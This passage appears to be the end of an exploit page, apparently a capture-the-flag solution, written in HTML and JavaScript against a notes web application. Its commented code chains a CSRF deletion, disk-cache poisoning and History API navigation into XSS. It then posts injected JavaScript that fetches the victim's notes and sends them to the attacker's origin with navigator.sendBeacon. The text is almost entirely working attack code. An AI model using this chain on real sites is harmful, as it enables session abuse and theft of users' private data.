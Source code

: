```html
              headers: { "X-Token": token },
            }).then((res) => res.text())
          )
        );

        navigator.sendBeacon("${location.origin}", notes.join("\\n"));
      })();
    `;

    const main = async () => {
      const params = new URLSearchParams(location.search);
      const baseUrl = params.get("baseUrl");
      const noteId = params.get("noteId");

      {
        // Delete a note (and create a deleted page) with CSRF
        const url = `${baseUrl}/api/notes/delete`;
        deleteNote(url, noteId);
      }
      await sleep(1000);

      let evilWindow;
      {
        // Access to the deleted page with no token
        // Then, the browser will render a response with 500 status.
        const url = `${baseUrl}/api/notes/${noteId}`;
        evilWindow = open(url);
      }
      await sleep(1000);
      {
        // Open the bot's user page
        // Then, it will pollute the disk cache for the deleted page.
        evilWindow.location = baseUrl;
      }
      await sleep(1000);
      {
        // Access to the deleted page again using History API
        // Then, the browser will render the cached page and the XSS will occur!
        // Note that a bfcache will not be used because the page will have a window.opener reference.
        //   ref. https://web.dev/articles/bfcache?hl=en#avoid_windowopener_references
        evilWindow.location = `${location.origin}/back.html?n=2`;
      }
      await sleep(1000);
      {
        // Send a JavaScript code via postMessage
        // Then, the XSS window will execute it!
        evilWindow.postMessage(evilJs, baseUrl);
      }
    };
    main();
  </script>
</body>
```
